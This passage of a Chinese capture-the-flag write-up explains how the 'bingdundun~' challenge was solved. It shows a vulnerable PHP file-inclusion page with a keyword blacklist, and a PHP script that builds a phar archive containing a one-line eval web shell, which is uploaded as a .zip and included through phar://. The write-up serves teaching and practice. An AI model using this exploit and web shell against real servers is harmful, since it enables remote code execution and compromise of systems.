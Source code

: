 默认以后面`/`开头的为文件路径

直接取`/flag`的文件传是不行的，文件名不允许含`/`，只能抓包改文件名

### bingdundun~

有点莫名其妙的一题

```php
//index.php
<meta charset="utf8">
<?php
error_reporting(0);
$bingdundun = $_GET["bingdundun"];
if (!$bingdundun) echo '<a href="?bingdundun=upload">upload?</a>';
if(stristr($bingdundun,"input")||stristr($bingdundun, "filter")||stristr($bingdundun,"data")/*||stristr($bingdundun,"phar")*/){
	echo "STOP!~Hacker Wont GET Bingdundun FreeDom!";
	exit();
}else{
	include($bingdundun.".php");
}
?>
<!-- 你能找到bingdundun的flag嘛，就在这个目录下 -->
```

这是最后rce了拿到的源码
用了`include`并自己加了后缀`.php`

构造一个包含一句话木马的phar文件，改为`.zip`后缀传上去
然后用phar读一下就好了，加`.php`感觉有点没逻辑，毕竟`include`就可以直接把字符串以php形式渲染了
这个`.php`就使你的文件必须是php结尾，虽然读**upload**是用的`?bingdundun=upload`

但是没给源码还是有点迷

```php
<?php
    @unlink("xlccccc.phar");


    $phar = new Phar("xlccccc.phar"); //通过内置的Phar类实例化，后缀名必须为phar

    $phar->startBuffering(); //开始缓冲 Phar 写操作，不要修改磁盘上的 Phar 对象
    //可以理解为必须的操作，与stopBuffering()配对使用

    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub

    
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    
    $phar->addFromString("exp.php", "<?php eval(\$_GET[1]);?>"); //添加要压缩的文件
    //签名自动计算
    
    $phar->stopBuffering();
?>
```
